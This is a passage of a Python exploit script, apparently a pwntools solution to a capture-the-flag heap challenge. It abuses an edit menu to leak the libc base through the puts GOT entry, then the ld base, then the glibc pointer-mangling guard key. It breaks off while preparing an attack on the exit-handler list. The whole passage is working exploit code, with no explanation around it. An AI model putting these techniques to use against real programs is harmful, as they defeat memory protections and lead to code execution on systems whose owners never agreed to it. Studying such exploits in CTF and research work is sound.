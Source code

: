 ```python

            binary.address = binary_base

            break
        except EOFError:
            info("EOF")
            io.close()
            continue
        except TimeoutError:
            info("timeout")
            io.close()
            continue

    payload = padding_payload_base
    payload += pack(binary.got["puts"])[:7]
    edit(io, payload)
    error_chal(io)
    edit(io, b"TEST", wait_prompt=False)

    io.readuntil(b"Menu")
    raw = io.readuntil(b"Menu")[: -len(b"Menu")][-6:] + b"\x00\x00"
    libc_base = unpack(raw) - libc.symbols["puts"]
    assert libc_base & 0xFFF == 0

    success(f"libc_base: {hex(libc_base)}")
    libc.address = libc_base

    payload = padding_payload_base
    payload += pack(libc.symbols["__nptl_rtld_global"])[:7]
    edit(io, payload)
    error_chal(io)
    edit(io, b"TEST", wait_prompt=False)

    io.readuntil(b"Menu")
    raw = io.readuntil(b"Menu")[: -len(b"Menu")][-6:] + b"\x00\x00"
    ld_base = unpack(raw) - ld.symbols["_rtld_global"]
    assert ld_base & 0xFFF == 0
    success(f"ld_base: {hex(ld_base)}")
    ld.address = ld_base

    current = address["2023-09-24T14:20:29"]
    # 0x7ffff7fad878 (__nptl_rtld_global) —▸ 0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
    payload = padding_payload_base
    payload += pack(
        current["mangle_key"] - min(current["ld-linux-x86-64.so.2_r--p"]) + ld_base
    )
    edit(io, payload)
    error_chal(io)
    edit(io, b"TEST", wait_prompt=False)

    io.readuntil(b"Menu")
    raw = io.readuntil(b"Menu")[: -len(b"Menu")][-8:]
    guard = unpack(raw)

    success(f"guard key is {hex(guard)}")

    # read intiial + 24
    current = address["for_initial"]
    payload = padding_payload_base
    payload += pack(
        (current["initial"] + 24) - min(current["libc.so.6_r--p"]) + libc_base
    )
```